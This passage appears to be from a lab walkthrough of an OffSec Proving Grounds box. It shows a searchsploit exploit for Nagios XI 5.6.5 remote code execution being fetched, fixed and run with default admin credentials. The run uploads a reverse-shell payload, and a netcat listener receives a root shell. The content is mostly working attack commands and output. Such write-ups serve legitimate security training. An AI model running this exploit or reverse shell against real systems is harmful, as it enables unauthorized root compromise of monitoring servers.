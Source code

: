 ```bash
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

```bash
┌──(bravosec㉿fsociety)-[~/Offsec/pg/play/Monitoring]
└─$ cd exploit

┌──(bravosec㉿fsociety)-[~/…/pg/play/Monitoring/exploit]
└─$ searchsploit -m 47299
  Exploit: Nagios XI 5.6.5 - Remote Code Execution / Root Privilege Escalation
      URL: https://www.exploit-db.com/exploits/47299
     Path: /usr/share/exploitdb/exploits/php/webapps/47299.php
    Codes: N/A
 Verified: False
File Type: PHP script, Unicode text, UTF-8 text, with very long lines (624)
Copied to: /home/kali/Offsec/pg/play/Monitoring/exploit/47299.php
```

> **Errors during exploit run**
> - `PHP Fatal error:  Uncaught Error: Call to undefined function curl_init()`
> - `PHP Fatal error:  Uncaught Error: Class "DOMDocument" not found`
{: .prompt-danger }

Fix :

```bash
sudo apt-get install php-curl php-curl -y
```

```bash
┌──(bravosec㉿fsociety)-[~/…/pg/play/Monitoring/exploit]
└─$ php 47299.php --host=192.168.222.136 --ssl=fale --user=nagiosadmin --pass=admin --reverseip=192.168.45.221 --reverseport=1111
[+] Grabbing NSP from: http://192.168.222.136/nagiosxi/login.php
[+] Retrieved page contents from: http://192.168.222.136/nagiosxi/login.php
[+] Extracted NSP - value: f0999f0abad680c76681f9624cc6279f3a1fbaafce94877c10f8871a9656bd37
[+] Attempting to login...
[+] Authentication success
[+] Checking we have admin rights...
[+] Admin access confirmed
[+] Grabbing NSP from: http://192.168.222.136/nagiosxi/admin/monitoringplugins.php
[+] Retrieved page contents from: http://192.168.222.136/nagiosxi/admin/monitoringplugins.php
[+] Extracted NSP - value: a13735f9b5af194392fe2d5bcef8f437f070366beb3eb4d1bac9e0aa513dc0c5
[+] Uploading payload...
[+] Payload uploaded
[+] Triggering payload: if successful, a reverse shell will spawn at 192.168.45.221:1111
```

```bash
┌──(bravosec㉿fsociety)-[~/…/pg/play/Monitoring/exploit]
└─$ nc -lvnp 1111
listening on [any] 1111 ...
connect to [192.168.45.221] from (UNKNOWN) [192.168.222.136] 60792
bash: cannot set terminal process group (944): Inappropriate ioctl for device
bash: no job control in this shell
root@ubuntu:/usr/local/nagiosxi/html/includes/components/profile# id
id
uid=0(root) gid=0(root) groups=0(root)
```